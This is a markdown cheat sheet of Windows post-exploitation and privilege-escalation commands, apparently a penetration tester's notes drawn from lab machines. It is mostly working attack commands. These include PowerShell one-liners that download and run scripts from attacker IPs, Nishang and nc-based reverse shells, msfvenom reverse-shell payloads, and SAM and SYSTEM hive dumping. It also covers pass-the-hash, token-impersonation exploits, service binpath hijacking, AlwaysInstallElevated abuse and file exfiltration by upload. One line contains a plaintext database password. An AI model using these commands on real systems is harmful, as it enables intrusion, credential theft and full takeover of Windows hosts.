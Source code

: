 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows Enum and Utilities
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Reverse powershell using Nishang
```
cp ~/post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/HTB/chatterbox/
powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')"
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

### Upload
```
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.199/upload.php', 'important.docx')
```

### Hidden bin folder for 64bit
```
C:\WINDOWS\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\WINDOWS\syswow64\WindowsPowerShell\v1.0\powershell.exe
```

### powershell base64
```
echo command | iconv -t utf-16le | base64 -w 0
powershell /env 
```

### Local mysql
```
mysql --user="dbuser" --database="sniper" --password="36mEAhz/B8xQ~2VM" < \\10.10.14.6\hacker\test.sql
```
## Common Vuln
### Weak service permission
How to spot
```
Use PowerUp script
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
sc qc servicename
```
Exploit
```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```
### An user is admin
Exploit
#### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

#### Run as NTAuth/System from local admin
```
PsExec.exe -accepteula -i -s %SystemRoot%\System32\cmd.exe
sc create newservicename binPath= "C:\windows\system32\cmd.exe"
sc start newservicename
```

### Elevate from local service or network service
https://github.com/itm4n/FullPowers

### Weak Service binary permission or unquoted service path
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f exe-service > shell.exe
```

### Local service
How to spot
```
netstat -ano
tasklist /svc
tasklist /v /fi "pid eq 123"
```

### always install elevated
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=443 –f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### DLL injection
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking
